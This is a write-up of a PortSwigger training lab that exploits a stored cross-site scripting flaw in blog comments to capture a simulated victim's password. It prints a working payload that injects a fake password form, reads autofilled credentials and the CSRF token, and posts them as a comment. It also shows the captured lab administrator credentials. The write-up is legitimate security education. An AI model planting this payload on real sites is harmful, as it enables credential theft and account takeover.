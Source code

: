 # Exploiting cross-site scripting to capture passwords | Dec 31, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords), you'll learn: Exploiting cross-site scripting to capture passwords! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044403.png)

**In the home page, we can view one of those posts:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044550.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044555.png)

And we can leave some comments.

**Let's test for XSS:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044704.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231044713.png)

It worked!

Now, **we can create a fake password `<input>` box, to capture victim auto-filled password!**

```html
<h2>Type your password here:</h2>

<form onchange=getPassword()>
    <label for="passwd">Password:</label>
    <input type="password" id="passwd" name="password">
    <br>
    <label for="user">Username:</label>
    <input type="username" id="user" name="username">
</form>

<script>
    function getPassword(){
        // Capture victim's password and CSRF token
        var password = document.getElementsByName("password")[0].value;
        var username = document.getElementsByName("username")[0].value;
        var csrfToken = document.getElementsByName('csrf')[0].value;

        // Construct the require POST parameters
        var data = 'csrf=' + csrfToken + '&';
        data += 'postId=7&';
        data += 'comment=' + username + ':' + password + '&';
        data += 'name=XSS&';
        data += 'email=xss@xss.com&';
        data += 'website='

        // Send the victim's password and username
        fetch('https://0a3c00d703b03f0fc0723608004700ed.web-security-academy.net/post/comment',
            {
                method: 'POST',
                mode: 'no-cors',
                body: data
            }
        )
    };
</script>
```

In this payload, when one of the input boxes update, run function `getPassword()`, which will fetch victim's password, username, and CSRF token. Then, construct the require POST parameters and send it via POST requesto to `/post/comment`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053257.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053307.png)

**Boom! We got his username and password: `administrator:4p7u96l7v47i93hx76qq`.**

**Let's login as `administrator`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053341.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-15/images/Pasted%20image%2020221231053350.png)

I'm user `administrator`!

# What we've learned:

1. Exploiting cross-site scripting to capture passwords